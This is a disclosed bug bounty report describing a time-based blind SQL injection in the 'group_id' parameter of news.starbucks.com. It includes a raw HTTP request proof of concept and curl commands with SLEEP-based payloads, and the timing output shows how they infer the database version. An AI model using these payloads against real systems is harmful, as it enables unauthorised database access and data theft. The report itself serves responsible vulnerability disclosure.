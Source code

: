 # Time-based Blind SQLi on news.starbucks.com

## Report Details
- **Report ID**: 198292
- **URL**: https://hackerone.com/reports/198292
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-01-14T04:52:15.129Z
- **Disclosed**: 2017-02-24T19:47:12.100Z

## Reporter
- **Username**: toctou
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
Hi,

I just found that the post parameter "group_id" for a particularly crafted http request is being vulnerable to injection due to missing parameter sanitization.

PoC:
```
POST / HTTP/1.1
Host: news.starbucks.com
Connection: close
Content-Length: 81
Cache-Control: max-age=0
Origin: https://news.starbucks.com
Content-Type: application/x-www-form-urlencoded

ACT=55&jsontree={"x":1}&site_id=1&group_id=1'-IF(1=1,SLEEP(1),0) AND group_id='1
```

This query will result in an execution of a SLEEP command, delaying the server response time:
```
time curl --data "ACT=55&jsontree={"x":1}&site_id=1&group_id=1'-IF(1=1,SLEEP(1),0) AND group_id='1" https://news.starbucks.com

real	0m4.945s
user	0m0.000s
sys		0m0.063s
```

If the custom IF statement evaluates to False, the response would be sensibly faster:
```
time curl --data "ACT=55&jsontree={"x":1}&site_id=1&group_id=1'-IF(1=2,SLEEP(1),0) AND group_id='1" https://news.starbucks.com

real	0m0.860s
user	0m0.000s
sys		0m0.031s
```

In this way it was possible to detect the dbms version being 5:
```
time curl --data "ACT=55&jsontree={"x":1}&site_id=1&group_id=1'-IF(MID(VERSION(),1,1)='5',SLEEP(1),0) AND group_id='1" https://news.starbucks.com

real	0m4.945s

time curl --data "ACT=55&jsontree={"x":1}&site_id=1&group_id=1'-IF(MID(VERSION(),1,1)='4',SLEEP(1),0) AND group_id='1" https://news.starbucks.com

real	0m1.005s
```

## Attachments
No attachments
